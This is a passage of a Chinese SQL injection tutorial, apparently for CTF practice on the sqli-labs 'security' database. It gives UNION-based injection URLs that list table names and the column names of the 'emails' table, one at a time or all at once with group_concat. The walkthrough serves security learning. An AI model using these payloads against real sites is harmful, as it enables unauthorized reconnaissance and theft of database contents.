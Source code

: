 获取数据库表名，这种方式一次获取一个表名，2位置修改为：

```csharp
select table_name from information_schema.tables where table_schema='security' limit 0,1;
```

```sql
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,(select table_name from information_schema.tables where table_schema='security' limit 0,1),3
```

修改limit中第一个数字，如获取第二个表名：limit 1,1，这样就可以获取所有的表名。

```bash
表名是：emails,referers,uagents,users。
```

![img](https://cdn.jsdelivr.net/gh/hirak0/hirak0-images/blog/sql/20200918002925.png)（2)方法二：

一次性获取当前数据库所有表名：

```sql
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,group_concat(char(32,58,32),table_name),3 from information_schema.tables where table_schema='security'
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918002946.png)

6）获取字段名

（1）方法一：

获取字段名，以emails表为例，2位置修改为：

```csharp
select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1;
```

```sql
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),3
```

修改limit中第一个数字，如获取第二个字段名：limit 1,1

```bash
字段名：id,email_id。
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918003003.png)（2)方法二：

以emails表为例，一次性获取所有字段名：

```sql
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,group_concat(char(32,58,32),column_name),3 from information_schema.columns where table_schema='security' and table_name='emails'
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918003021.png)

